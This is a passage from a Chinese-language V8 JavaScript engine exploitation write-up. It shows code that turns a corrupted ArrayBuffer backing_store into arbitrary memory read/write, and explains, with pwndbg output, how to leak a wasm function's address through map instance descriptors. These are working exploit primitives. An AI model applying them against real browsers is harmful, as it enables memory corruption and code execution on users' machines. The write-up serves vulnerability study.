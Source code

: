 ```javascript

function dataview_write(addr, payload)
{
	data_view.setFloat64(31, i2f(addr), true);
	var view_view = new DataView(view_buf);
	for(let i=0; i < payload.length; i++)
	{
		view_view.setUint8(i, payload[i]);
	}
}
```

利用victim.offset16 = view_buf; 将 data_buf->backing_store 填充成view_buf的地址，根据前言中setFloat64方法的介绍，可以利用data_view.setFloat64(31, i2f(addr), true); 修改view_buf->backing_store 为目标地址，利用view_view进行任意地址读写。

### （4）查找wasm_function 地址

直接通过addrOf无法获取wasm_function的地址，通过data_buf->map->instance descriptors进行查找，具体方法如下：

将wasm_function 对象保存在 data_buf 新定义的属性leakobj，后面可以根据map->instance descriptors 找到wasm_function对象，利用任意读泄露wasm_function 地址。

```c
pwndbg> job 0x26aa75e88e29   <----------data_buf
0x26aa75e88e29: [JSArrayBuffer] in OldSpace
 - map = 0x36134bc8a5e1 [FastProperties]    <-----------map
 - prototype = 0x26aa75e8b7b9
 - elements = 0x2b6a10f82251 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store = 0x30ef9d224311
 - byte_length = 200
 - neuterable
 - properties = 0x2b6a10f82251 <FixedArray[0]> {
    #leakobj: 0x26aa75eabf09 <JSFunction 0 (sfi = 0x26aa75eabdc9)> (const data descriptor)<-----wasm function
 }
 - embedder fields = {
    (nil)
    (nil)
 }
pwndbg> job 0x36134bc8a5e1       <---------------------map
0x36134bc8a5e1: [Map]
 - type: JS_ARRAY_BUFFER_TYPE
 - instance size: 80
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x36134bc82f71 <Map(HOLEY_ELEMENTS)>
 - instance descriptors (own) #1: 0x30ef9d2243a1 <FixedArray[5]>  <--------------instance descriptors
 - layout descriptor: (nil)
 - prototype: 0x26aa75e8b7b9 <Object map = 0x36134bc8a631>
 - constructor: 0x26aa75e8b609 <JSFunction ArrayBuffer (sfi = 0x2b6a10fb3711)>
 - dependent code: 0x2b6a10f82251 <FixedArray[0]>
 - construction counter: 0
pwndbg> job 0x30ef9d2243a1                             <--------------instance descriptors
0x30ef9d2243a1: [FixedArray]
 - map = 0x1a6f8cc022f1 <Map(HOLEY_ELEMENTS)>
 - length: 5
           0: 1
           1: 0x2b6a10f849d1 <Tuple2 0x2b6a10f82251 <FixedArray[0]>, 0x2b6a10f82251 <FixedArray[0]>>
           2: 0x26aa75ebaa11 <String[7]: leakobj>
```